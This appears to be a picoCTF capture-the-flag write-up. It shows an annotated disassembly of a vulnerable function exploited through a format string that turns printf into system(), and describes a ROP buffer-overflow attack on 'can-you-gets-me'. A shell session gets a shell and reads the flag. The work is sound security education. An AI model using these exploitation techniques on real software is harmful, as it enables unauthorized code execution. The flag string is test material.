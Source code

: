 ### Disassembly

```
pwndbg> disas vuln
Dump of assembler code for function vuln:
   0x080485ab <+0>:	push   ebp
   0x080485ac <+1>:	mov    ebp,esp
   0x080485ae <+3>:	push   edi
   0x080485af <+4>:	sub    esp,0x94
   0x080485b5 <+10>:	mov    eax,gs:0x14
   0x080485bb <+16>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485be <+19>:	xor    eax,eax
   0x080485c0 <+21>:	lea    edx,[ebp-0x8c]
   0x080485c6 <+27>:	mov    eax,0x0
   0x080485cb <+32>:	mov    ecx,0x20
   0x080485d0 <+37>:	mov    edi,edx
   0x080485d2 <+39>:	rep stos DWORD PTR es:[edi],eax
   0x080485d4 <+41>:	sub    esp,0xc
   0x080485d7 <+44>:	push   0x8048720
   0x080485dc <+49>:	call   0x8048460 <system@plt>	; The call to system() seems suspect now...
   0x080485e1 <+54>:	add    esp,0x10
   0x080485e4 <+57>:	sub    esp,0x4
   0x080485e7 <+60>:	push   0x7f
   0x080485e9 <+62>:	lea    eax,[ebp-0x8c]
   0x080485ef <+68>:	push   eax
   0x080485f0 <+69>:	push   0x0
   0x080485f2 <+71>:	call   0x8048410 <read@plt>	; Our malicious string!
   0x080485f7 <+76>:	add    esp,0x10
   0x080485fa <+79>:	sub    esp,0xc
   0x080485fd <+82>:	lea    eax,[ebp-0x8c]
   0x08048603 <+88>:	push   eax			; '/bin/sh' on the next call to vuln()
   0x08048604 <+89>:	call   0x8048420 <printf@plt>	; I become system()
   0x08048609 <+94>:	add    esp,0x10
   0x0804860c <+97>:	sub    esp,0xc
   0x0804860f <+100>:	push   0x8048739
   0x08048614 <+105>:	call   0x8048450 <puts@plt>	; I call vuln() again
```


## can-you-gets-me
`can-you-gets-me` is exploited using return-oriented programming. As the name suggests, the program accepts input from `stdin` via `gets()` leading to a buffer overflow. We setup our call to `system()` by loading the appropriate registers `ebx`, `ecx` and `edx` with the required parameters before issuing an `int 80h`. The string `/bin//sh` is written into the `.bss` section 4 bytes at a time.

```
$ (cat /tmp/gets_payload; cat) | ./gets
GIVE ME YOUR NAME!
id
uid=2861(secsession) gid=1127(can-you-gets-me_0) groups=1127(can-you-gets-me_0),1001(competitors),2862(secsession)
cat flag.txt
picoCTF{rOp_yOuR_wAY_tO_AnTHinG_cca0ace7}
```

